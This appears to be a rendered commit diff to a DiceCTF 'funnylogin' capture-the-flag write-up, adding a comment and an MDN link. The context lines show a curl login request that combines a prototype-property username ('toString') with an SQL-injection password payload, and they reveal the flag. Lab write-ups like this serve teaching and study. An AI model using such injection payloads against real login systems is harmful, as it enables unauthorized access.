

Before and after one commit to CoderZonora/Cryptonite, a Markdown page: DiceCTF/funnylogin.md, 2 parts joined by grey strips. Drawn GitHub-style; blank space fills up the shorter version.

````diff
--- a/DiceCTF/funnylogin.md
+++ b/DiceCTF/funnylogin.md
@@ -93,7 +93,7 @@ So, we can do the following:
 ```
 > const isAdmin = {}
 undefined
-> isAdmin['asdf'] = true
+> isAdmin['asdf'] = true #Bracket notation is used to access an object property.
 true
 > isAdmin.
 isAdmin.__proto__             isAdmin.constructor           isAdmin.hasOwnProperty        isAdmin.isPrototypeOf         isAdmin.propertyIsEnumerable
@@ -116,3 +116,5 @@ The following payload will do the trick:
 $ curl https://funnylogin.mc.ax/api/login -d "user=toString&pass='+UNION+SELECT+1--+-"
 Found. Redirecting to /?flag=dice%7Bi_l0ve_java5cript!%7D
 ```
+
+Docs to understand how this works: https://developer.mozilla.org/en-US/docs/Learn/JavaScript/Objects/Object_prototypes
````
